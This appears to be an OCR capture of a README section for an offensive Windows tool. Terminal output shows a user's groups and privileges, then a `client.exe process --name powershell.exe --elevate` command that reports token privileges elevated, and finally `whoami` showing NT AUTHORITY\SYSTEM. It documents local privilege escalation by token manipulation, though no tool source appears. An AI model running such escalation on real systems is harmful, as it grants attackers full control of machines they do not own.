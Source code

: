 ```
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only
BUILTIN\Performance Log Users                                 Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                                                 Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe process --name powershell.exe --elevate
[+] Tokens privileges elevated successfully 6376
```

```
PS C:\Users\memn0ps\Desktop> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384
```